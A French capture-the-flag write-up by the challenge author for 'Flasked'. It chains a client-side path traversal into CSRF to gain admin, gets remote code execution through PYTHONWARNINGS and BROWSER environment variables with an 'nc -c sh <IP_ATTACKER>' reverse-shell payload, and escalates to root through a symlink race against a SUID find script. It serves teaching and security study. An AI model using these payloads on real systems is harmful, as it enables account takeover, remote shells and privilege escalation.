





# Flasked

## Writeup de l'auteur

Ce writeup est le fruit de ma connaissance du challenge et permet de résoudre le challenge. Ayant conçu le challenge, je ne peux pas m'assurer que certaines parties fussent plus ou moins "guessy". Pour répondre à ce problème, j'ai fait appel aux talents de @train et @xpholey.

## Reconnaissance

Nous avons accès aux sources de ce service web. La description du challenge nous fait comprendre que nous devons prendre un contrôle total du serveur qui héberge le service (woot la box :P).

On reconnait un service web avec un système de gestion d'utilisateurs et ce qui pourrait ressembler à un back-end d'administration.

Nous pouvons supposer que l'accès au backend en ayant un compte administrateur est un objectif intermédiaire.

## Première étape: obtenir un compte admininstrateur

Il est possible de créer librement un compte sur l'interface.

Ensuite, pour avoir un compte administrateur, il faut qu'un autre administrateur valide manuellement notre compte. Côté API, cela se formalise par un appel à la route `/api/promote/<notre_user_id>` par une requête POST, protégée par un token CSRF.

Pour forcer un administrateur à valider notre compte, il faudrait soit:

- Trouver un moyen de voler un token CSRF (normalement impossible)
- Trouver un moyen de lui faire créer cette requête avec les éléments nécessaires (token CSRF et user ID).

### Fonctionnalité étrange: les "analytics"

Il semblerait que sur la page d'accueil, des script "d'analytics" envoient des données au backend de cette manière:

1. Lorsqu'un utilisateur fait une recherche dans la barre de recherche, une requête GET est envoyée à l'endpoint `/api/search_analytics/`, suivi du terme recherché, sans encodage URL
2. La réponse de cette requête contient deux champs: `function` qui contient la fonctionnalité utilisé (ici, la recherche soit `search`) et le nom d'utilisateur du requêteur (`username`, ici: `guest`): .
3. Le script d'analytics consomme par la suite le nom d'utilisateur (`username`) pour envoyer une requête POST (avec un token CSRF validé) sur l'endpoint `/api/analytics_user/<username>`, en l'occurence `/api/analytics_user/guest`.



### La fonctionnalité de signalement (`/report`)

Le challenge nous fournit un moyen d'envoyer arbitrairement un administrateur sur n'importe quel endroit du site.

Le bot fonctionne de la manière suivante:

1. Il se connecte au site
2. Il visite l'URL que nous lui envoyons en remplaçant le HOST par 127.0.0.1 (il n'ira que sur lui-même).

### L'endpoint `/api/promote/<user_id>`

Afin de promouvoir un compte comme administrateur, un administrateur doit envoyer une requête POST contenant l'ID du compte qu'il souhaite valider sur l'endpoint `/api/promote/<user_id>`, où `user_id` est l'identifiant base de données de l'utilsateur que l'administrateur souhaite promouvoir. La requête **doit** contenir un jeton CSRF valide.

### La vulnérabilité: CSPT2CSRF (Client-Side Path Traversal to Cross-Site Request Forgery)

(pour davantage de détails sur cette vulnérabilité, voir les sources en bas de ce writeup)

Comme le script d'analytics en front-end n'échappe pas les caractères spéciaux et concatène simplement la recherche d'un utilisateur à l'URL `/api/search_analytics/`, il est possible d'exploiter un CSPT (Client-Side Path Traversal), qui nous permet de déclencher une requête sur un endpoint totalement arbitraire!

#### Exemple

```text
Recherche: ../../logout
Chaine concaténée: /api/search_analytics/../../logout
Après normalisation: /logout
```

Et une requête GET sur l'endpoint `/logout` nous permet de déconnecter arbitrairement n'importe quel utilisateur :o

Mais ce n'est pas très utile...

#### Comment envoyer une requête POST sur `/api/promote/<notre_id>`?

Nous remarquons que si nous arrivons à utiliser le script d'analytics (`/api/analytics_user/<username>`), le navigateur envoie une requête:

- POST
- avec un jeton CSRF valide

Ce qui est tout ce que nous cherchons! Il faut donc que nous contrôlions `username`, puisque ce paramètre non plus n'est pas échappé. Cela nous permettrait d'exploiter à nouveau une vulnérabilité CSPT.

Imaginons que nous soyons en mesure de controler `username`:

```text
Username: ../../api/promote/2 (ici, notre user_id est 2)
Chaine concaténée: /api/analytics_user/../../api/promote/2
Après normalisation: /api/promote/2
```

Si nous arrivons à déclencher ceci chez un administrateur, magie! Le jeton CSRF sera valide et notre compte est désormais administrateur.

#### Comment contrôler `username` dans `/api/analytics_user/<username>`?

Reprenons la fonction suivante:

```js
fetch("/api/search_analytics/" + term) // Ici, nous contrôlons `term`, donc nous pouvons faire une requête sur n'importe quel endpoint
    .then(res => res.json()) // le contenu de la requête est interprété comme JSON
    .then(data => {
        // ...
        return fetch("/api/analytics_user/" + data.username, { // dans notre JSON, le champ "username" est ajouté tel quel à la fin de notre path
            method: "POST", // requête POST, youpiii
            headers: {
                // ...
                "X-CSRFToken": csrfToken // jeton CSRF valide, youpiii
            },
            // ...
        });
    })
```

Alors nous en concluons qu'il nous faut un endpoint qui nous renvoie un `username` que nous pourrions contrôler...

#### L'API à la rescousse: `/api/user/<user_id>`

Cet endpoint, appelable à l'aide d'une requête GET, nous renvoie (par exemple):

```json
{
    "id": 2,
    "username": "guest",
    "user_type": "normal"
}
```

En étudiant un peu le code, on se rend compte que:

- Un utilisateur ne peut accéder qu'à ses propres données, mais...
- Un administrateur peut accéder aux données de n'importe quel utilisateur!

#### Un peu de tricot pour assembler toutes ces vulnérabilités et fonctionnalités intéressantes

Résumons, nous avons:

- Une CSPT qui nous permet de déclencher une requête GET sur n'importe quel endpoint, et dont la réponse sera consommée comme JSON (particulièrement le champ `username`)
- Un endpoint API (`/api/user/<user_id>`) qui nous renvoie du JSON, contenant un `username`, arbitraire et contrôlable (nous pouvons créer librement des comptes!)
- Une CSPT sur une requête POST, que nous pouvons déclencher de manière automatique grâce au front-end grâce au contrôle de la variable `username`

#### Exploitation complète pour obtenir un compte administrateur sur l'interface web

1. Créer un compte par exemple, `guest` et s'y connecter,
2. Récupérer son user ID, grâce à la page `/profile`; ici: `5` , puis s'en déconnecter.
3. Créer un second compte, nommé `../../api/promote/5` et s'y connecter,
4. Récupérer son user ID, grâce à la page `/profile`; ici: `6` , puis s'en déconnecter.
5. Se reconnecter au compte `guest`
6. Sur la page `/report`, envoyer à l'administrateur le lien suivant: `http://localhost:5000/?filter=../../api/user/6` (où le `6` correspond à l'ID de notre second utilisateur)
7. Recharger la page... Victoire! 

Nous avons désormais un compte administrateur sur l'application.

## Deuxième étape: obtenir une RCE (Remote Code Execution)

Pour bien comprendre cette étape du challenge, il est important de bien lire les sources que j'ai donné en bas de ce document!

### Exploitation

On peut lire [ici](https://www.elttam.com/blog/env/#content) qu'il est possible d'importer un module de manière arbitraire à l'aide des warnings de `python` (l'option `-W`), que nous allons exploiter, et qui peut (de manière alternative) se représenter comme une variable d'environnement: PYTHONWARNINGS.

Pour ce faire, nous passons simplement dans cette variable les options que nous aurions passé à `python -W`: `all:0:$MODULE.x:0:0` où `$MODULE` est un module arbitraire.

Toujours d'après le même article, le module `antigravity`, présent dans le code de python depuis 2008 comme un easter egg, utilise un autre module, `webbrowser`. Ce module cheche un navigateur web dans la machine, puis utilise la variable d'environnement `BROWSER` pour définir un ordre de préférence d'utilisation des éventuels (plusieurs) navigateurs.

Le code source qui nous intéresse dans `antigravity`:

```python
import webbrowser
webbrowser.open("http://xkcd.com/353/")
```

Le code source de la fonction `open` dans le module `webbrowser`:

```python
def open(url, new=0, autoraise=True):
    # ...
    for name in _tryorder:
        browser = get(name) # cherche un browser, généralement un GenericBrowser
        if browser.open(url, new, autoraise): # Méthode: open
            return True
    return False
```

Le code source de la méthode `open` de la classe `GenericBrowser` dans le module `webbrowser`:

```python
def open(self, url, new=0, autoraise=True):
    # ...
    cmdline = [self.name] + [arg.replace("%s", url)
                                for arg in self.args]
    try:
        # ...
        p = subprocess.Popen(cmdline, close_fds=True)
        return not p.wait()
    except OSError:
        return False
```

Nous pouvons ainsi exécuter du code arbitraire, dans lequel toute occurence de `%s` sera remplacée par la string `"http://xkcd.com/353/"`!

Cela sera enfin envoyé dans `subprocess.Popen`. Pour obtenir un reverse shell, nous optons pour le payload utilisant `netcat-traditional`: `nc -c sh <IP_ATTACKER> 8000 #%s`. Remarquez que l'endroit où nous demandons à python de remplir l'URL est derrière un dièse, qui représente le début d'un commentaire de code en `bash`.

Dans l'interface, nous définissons les champs de cette manière:

```bash
PYTHONWARNINGS=all:0:antigravity.x:0:0
BROWSER=nc -c sh "<IP_ATTACKER>" 80 #%s
```

Puis nous déclenchons le lancement du "script de backup", `scripts/backup.py` depuis l'endpoint associé, et un reverse shell arrive chez nous!

Plus qu'à `cat rceflag.txt`, et c'est gagné.

## Troisième étape: élévation de privilèges sur la machine

L'utilisateur flask-app a les accès en lecture sur /var/log.

Dans son home (`/home/flask-app`) se trouve un script bash avec le bit SUID défini, et ce script peut s'exécuter avec les droits de l'utilisateur `root`.

Le script est très simple et la logique passe sur 3 lignes:

```bash
FILENAME="/home/flask-app/$(date -u +%Y-%m-%dT%H:%M:%S%Z).log"  # ici, on définit une variable qui sera le nom d'un fichier de backup
find / -type f -iname "*.app.log" -exec cat {} + > "$FILENAME"  # ici, on cherche récursivement depuis la racine (!) tous les fichiers de type "fichier"
                                                                # qui matchent le pattern "*.app.log", nous les affichons dans stdout qui est redirigé
                                                                # dans le fichier "$FILENAME"
chmod a+r "$FILENAME"                                           # Le fichier écrit peut être lu par tout le monde
```

### *Race condition* dans `find(1)`

La vulnérabilité ne saute pas aux yeux, mais il existe une *race condition* dans la commande `find`, entre le moment où les fichiers sont trouvés et la commande de l'argument `-exec` est exécutée. Cette *race condition* est davantage favorisée par:

- Le fait que la commande `find` cherche dans tous les fichiers du système depuis la racine (cela peut prendre beaucoup de temps);
- Le fait que l'option `-exec` soit utilisée avec le mode `+` et non le mode `;`. Ce mode précise à `find` de n'exécuter qu'une seule commande avec tous les résultats de la commande. Cela implique donc que `find` attendra de totalement terminer la recherche et le matching des fichiers avant de lancer la commande (en l'occurence `cat(1)`).

#### Que permet cette *race condition*?

Cette *race condition* pourrait nous permettre de `cat` un fichier portant un nom qui match le pattern `*.app.log`. Dit comme ça, cela ne paraît pas très prometteur.

Cependant, il existe un type de fichier particulier dans les systèmes Linux, que l'on appelle les `symlinks` ("Symbolic links" ou liens symboliques). Ces fichiers peuvent faire référence à des chemins du système de fichiers, et même à des fichiers inexistants ou des chemins auxquels nous n'avons pas le droit d'accéder.

En revanche, la race condition cherche des fichiers de type "f", soit des fichiers à proprement parler et non des liens symboliques. En utilisant la race condition, nous pourrions créer un fichier dans un premier temps, comme par exemple `toto.app.log`, puis parallèlement à notre script `backup.sh`:

1. Supprimer le fichier du filesystem
2. Créer un lien symbolique portant le même nom (`toto.app.log`) dont la référence pointerait sur un fichier que nous ne pouvons pas lire, par exemple: `/root/flag.txt`

Le tout en boucle, est rapidement (de l'ordre de la milliseconde), afin de nous donner un maximum de chances de réussir.

Pour voir le code de l'exploitation, voir [main.c](./main.c).

#### Exploitation complète pour lire le flag root

```bash
nano main.c # y copier le contenu de main.c
gcc -o race ./main.c # compiler le programme
./race & # lancer le programme en tâche de fond
./suid_wrapper && cat *.log # lancer le script avec les droits élevés, afficher le contenu des fichiers de logs apparus!
                            # NB: il peut être nécessaire de lancer plusieurs fois l'exploitation si nous n'avons pas de chance sur le timing ;)
                            # Après tout, c'est une race condition!
pkill race # bien penser à kill le programme
```

## Sources

### CSPT2CSRF / step 1

<https://blog.doyensec.com/2024/07/02/cspt2csrf.html>

### Env RCE / step 2

<https://www.elttam.com/blog/env/#content>
<https://news.ycombinator.com/item?id=28197502>
<https://0xn3va.gitbook.io/cheat-sheets/web-application/command-injection>
<https://github.com/python/cpython/blob/f5a9c34f38886c5cf9c2f8d860eee3473447e030/Lib/webbrowser.py>
<https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-python-applications-injection>
